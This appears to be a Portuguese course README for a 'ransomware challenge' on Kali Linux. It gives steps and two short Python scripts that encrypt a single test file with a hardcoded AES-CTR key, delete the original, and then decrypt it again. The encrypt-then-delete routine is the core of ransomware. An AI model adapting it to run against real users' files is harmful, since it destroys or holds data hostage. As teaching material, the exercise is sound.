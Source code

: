 # Projeto desafio ransomwre

Projeto criado para curso da DIO utilizando o a distribuição Kali linux. 
## Passo a passo

1. Abrir o PROTON VPN (ou outro VPN, no caso esse eu já conhecia)
2. Abrir o Kali Linux
3. Abrir o prompt
4. Logar como root: digitar "sudo su" e, quando solicitado digitar a senha do sistema
5. Criar um diretorio: "mkdir projeto_ransowre"
6. Criar o arquivo descripto.py com o comando:"nano descripto.py"
7. digitar o codigo em python:

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

![capturadetela](/ProjetoDois/decripto.png)
 
8. Criar o arquivo encripta. py com o seghunte código:

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

9.  Salvar o arquivo com o ctrl + O e encerrar o arquivo com o comando ctrl + x

![capturadetela](/ProjetoDois/encripto.png))
10. Testar

